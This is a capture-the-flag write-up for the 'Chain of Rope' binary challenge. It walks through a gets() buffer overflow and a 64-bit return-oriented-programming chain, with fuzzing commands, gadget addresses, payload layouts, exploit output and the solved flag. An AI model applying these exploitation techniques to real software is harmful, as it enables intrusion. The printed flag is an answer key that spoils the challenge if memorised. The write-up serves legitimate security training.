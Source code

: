 # Chain of Rope
Binary

## Challenge 

defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?

/problems/2019/chain_of_rope/

nc shell.actf.co 19400

Author: Aplet123

[chain_of_rope](chain_of_rope)

[chain_of_rope.c](chain_of_rope.c)

## Solution

Vulnerable gets() inside the main() function.

Fuzzing, we successfully returned to getInfo() with an offset of 48

    # for i in {1..100}; do echo $i; python -c "from pwn import *; print '1'; print cyclic($i) + p64(0x401256)" | ./chain_of_rope; done 

    48
    --== ROPE CHAIN BLACK MARKET ==--
    LIMITED TIME OFFER: Sending free flag along with any purchase.
    What would you like to do?
    1 - Set name
    2 - Get user info
    3 - Grant access
    Token: 0x0
    Balance: 0x0
    Segmentation fault

To get flag, we must have the following

1. call authorize(void)
2. call addBalance(0xdeadbeef)
3. call flag(0xba5eba11, 0xbedabb1e)


### My initial plan

Hence we will return to main() 3 times and also inject the payload 3 times.

This will be our payload.

    1. call authorize(void)
        payload =  [addr of authorize]
        payload += [addr of main]

    2. call addBalance(0xdeadbeef)
        payload =  [addr of addBalance]
        payload += [addr of main]
        payload += [param1 of 0xdeadbeef]

    3. call flag(0xba5eba11, 0xbedabb1e)
        payload =  [addr of flag]
        payload += [addr of main]
        payload += [param1 of 0xba5eba11]
        payload += [param2 of 0xbedabb1e]


Unfortunately, no matter how much I tried, I can never get the addBalance(0xdeadbeef) to be called successfully...

    # python payload.py 
    [+] Starting local process './chain_of_rope': pid 58799
    [+] Parsing corefile...: Done
    [*] '/FILES/core'
        Arch:      amd64-64-little
        RIP:       0xdeadbeef
        RSP:       0x7ffe83cdd8e8
        Exe:       '/FILES/chain_of_rope' (0x401000)
        Fault:     0xdeadbeef
    --== ROPE CHAIN BLACK MARKET ==--
    LIMITED TIME OFFER: Sending free flag along with any purchase.
    What would you like to do?
    1 - Set name
    2 - Get user info
    3 - Grant access

    ACCESS DENIED

    Token: 0x1337

    Balance: 0x0


### 64-bit binary

Now this is where I noticed it is a 64-bit binary file.

- https://tuonilabs.wordpress.com/2018/07/31/rop-write-ups/
- https://ctf101.org/binary-exploitation/return-oriented-programming/#64-bit
- https://sidsbits.com/Defeating-ASLR-with-a-Leak/
- https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/
- https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64

> In 64-bit binaries we have to work a bit harder to pass arguments to functions. The basic idea of overwriting the saved RIP is the same, but as discussed in calling conventions, arguments are passed in registers in 64-bit programs. 

> The first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9.


Hence, we need to pop the argument into RDI first before calling the function.

### Revised plan

So now this is out revised payload.

    1. call authorize(void)
        payload += [addr of authorize]

    2. call addBalance(0xdeadbeef)
        payload += [addr of pop_rdi]      # param1
        payload += [param1 of 0xdeadbeef] # param1
        payload += [addr of addBalance]

    3. call flag(0xba5eba11, 0xbedabb1e)
        payload += [addr of pop_rdi]      # param1
        payload += [param1 of 0xba5eba11] # param1
        payload += [addr of pop_rsi]      # param2
        payload += [param2 of 0xbedabb1e] # param2
        payload =  [addr of flag]

For the pop gadgets, we can use ROPGadget to retrieve the addresses


    # ROPgadget --binary ./chain_of_rope | grep 'pop rdi'
    0x0000000000401403 : pop rdi ; ret

    # ROPgadget --binary ./chain_of_rope | grep 'pop rsi'
    0x0000000000401401 : pop rsi ; pop r15 ; ret

Unfortunately, the `pop rsi` also contains a `pop r15`, so we need to have a dummy address inserted too.

Putting it all together into a pwntools script, we get the flag

    # python payload.py 
    [+] Opening connection to shell.actf.co on port 19400: Done
    --== ROPE CHAIN BLACK MARKET ==--
    LIMITED TIME OFFER: Sending free flag along with any purchase.
    What would you like to do?
    1 - Set name
    2 - Get user info
    3 - Grant access

    Authenticated to purchase rope chain, sending free flag along with purchase...
    actf{dark_web_bargains}--== ROPE CHAIN BLACK MARKET ==--
    LIMITED TIME OFFER: Sending free flag along with any purchase.
    What would you like to do?
    1 - Set name
    2 - Get user info
    3 - Grant access

## Flag

    actf{dark_web_bargains}
